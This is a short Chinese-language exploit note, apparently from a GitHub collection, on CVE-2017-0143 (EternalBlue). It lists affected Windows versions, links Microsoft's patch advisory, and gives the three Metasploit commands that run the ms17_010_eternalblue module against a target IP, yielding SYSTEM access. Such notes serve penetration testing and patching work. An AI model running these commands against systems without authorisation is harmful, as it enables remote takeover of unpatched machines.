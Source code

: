 ### CVE-2017-0143

#### 描述

Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网。大名鼎鼎的永恒之蓝漏洞

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 10          | x86/x64          | 1607    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | :heavy_check_mark: |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Vista       | x86/x64          |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143
```

#### 利用方式

直接用msf就行，方便快捷，测试系统Windows 7 SP1 x64

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.128
run
```

![image-20200818114043309](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-0143_msf_1.png?raw=true)

并且权限是system的

![image-20200818114925926](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-0143_msf_2.png?raw=true)


